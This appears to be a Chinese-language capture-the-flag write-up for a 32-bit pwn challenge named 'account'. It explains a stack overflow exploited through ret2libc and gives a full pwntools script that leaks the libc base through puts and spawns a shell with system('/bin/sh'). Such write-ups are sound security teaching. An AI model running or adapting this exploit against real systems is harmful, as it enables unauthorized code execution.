


# account

## 文件属性

|属性  |值    |
|------|------|
|Arch  |i386  |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.18|

## 解题思路

非常直接的栈溢出，走ret2libc那套就行。不输入0就可以一直往上输入，
输入时还会覆盖到`idx`，可以顺手将其改为指向返回地址，少循环几次，
然后输入rop的链子后以0结尾就行。

好久没做32位的题了，都忘记怎么构造rop了。32位上，发生了`call`以后，
对于子函数来说，`[esp]`是返回地址，`[esp+4]`才是参数。因此我们在构造链子的时候，
返回地址后面不应该跟参数，而是跟另一个返回地址，如下图所示。



> [!TIP]
> `scanf("%d")`在输入超大数字时不会自动溢出到负数，因此需要我们手动干预，
> 取数字的补码，例如对于libc这种超过`0x7fffffff`的指针，就要手动减去`1 << 32`

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './account'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'b *0x80492ea\nc')
    else:
        t = remote('pss.idss-cn.com', 24817)
    elf = ELF(EXE)
    libc = ELF('./libc.so.6')

    def round_input(rop: list[int]):
        bills = [1] * 10 # overflow
        bills.append(13) # write i to ret addr
        for e in rop:
            bills.append(e if e < 0x80000000 else e - (1 << 32))
        bills.append(0)  # ends up
        t.sendlineafter(b'Enter', ' '.join(map(str, bills)).encode())
        t.recvuntil(b'completed\n')

    round_input([elf.plt['puts'], elf.symbols['vul'], elf.got['puts']])
    libc_base = t.u32() - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    round_input([libc.symbols['system'], libc.symbols['exit'],
                 next(libc.search(b'/bin/sh')), 1])

    t.clean()
    t.interactive()
    t.close()
```


